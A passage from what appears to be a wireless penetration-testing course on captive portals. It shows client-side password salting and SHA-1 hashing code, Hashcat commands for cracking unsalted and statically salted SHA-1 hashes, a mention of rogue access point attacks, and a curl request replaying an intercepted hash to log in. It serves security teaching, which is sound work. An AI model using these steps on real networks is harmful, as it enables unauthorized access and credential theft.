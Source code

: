   // Pre-generated salt
  const salt = "mysalt";
  
  // Concatenate salt and password
  const saltedPassword = salt + passwordValue;
  
  // Base64 encode the salted password
  const base64EncodedPassword = btoa(saltedPassword);
  
  // Hash the base64-encoded password using SHA-1
  const sha1Hash = sha1(base64EncodedPassword);
</code></pre>
<h4>Randomly Generated</h4>
<pre><code class="language-javascript">function submitPassword() {
  const passwordInput = document.getElementById("password");
  const passwordValue = passwordInput.value;
  
  // Generate a random salt
  const saltBytes = new Uint8Array(16);
  crypto.getRandomValues(saltBytes);
  const salt = Array.from(saltBytes, byte =&gt; String.fromCharCode(byte)).join('');
  
  // Concatenate salt and password
  const saltedPassword = salt + passwordValue;
  
  // Base64 encode the salted password
  const base64EncodedPassword = btoa(saltedPassword);
  
  // Hash the base64-encoded password using SHA-1
  const sha1Hash = sha1(base64EncodedPassword);
</code></pre>
<p>This could be an indication of additional controls, meaning that each iteration of the authentication is specific to one device. While this might make it harder for us to connect to the captive portal without knowledge of the real password, it isn't impossible.</p>
<p>Suppose we want to retrieve the real password, we have two primary options:</p>
<ol>
<li>
<code>Crack the hash</code> – If the credentials are hashed, we can attempt to recover the plaintext password through hash cracking.</li>
<li>
<code>Employ a hostile portal attack</code> – We can set up a rogue access point to trick users into entering their credentials directly (Covered in later section).</li>
</ol>
<p>If the client does not use a salt, we can attempt to crack the hash with Hashcat using the following command where mode <code>100</code> is for SHA1 without salt.</p>
<pre><code class="language-shell-session">[!bash!]$ hashcat -m 100 -a 0 12A00057AE853A05601D5FAFB7BC8141C37EAABE /path/to/wordlist
</code></pre>
<p>Conversley, ff the hash includes a static salt, we can specify the salt using mode <code>110</code> in Hashcat:</p>
<pre><code class="language-shell-session">[!bash!]$ hashcat -m 110 -a 0 4B866B26E76F822DED3C1ECE4B1772F25531286B:HTB-Salt /path/to/wordlist
</code></pre>
<hr/>
<h4>Using a Hashed Password</h4>
<p>First, let's examine how an intercepted unsalted hash can be used to authenticate with a captive portal. Just as before, we must first connect to the target wireless network. Once connected, we can use the <code>curl</code> utility to send a custom POST request to the captive portal server.</p>
<pre><code class="language-shell-session">[!bash!]$ curl -X POST -d 'username=admin&amp;password=391aa8b7234d908027efe09114f5453a&amp;submit=Sign+In' 192.168.0.1
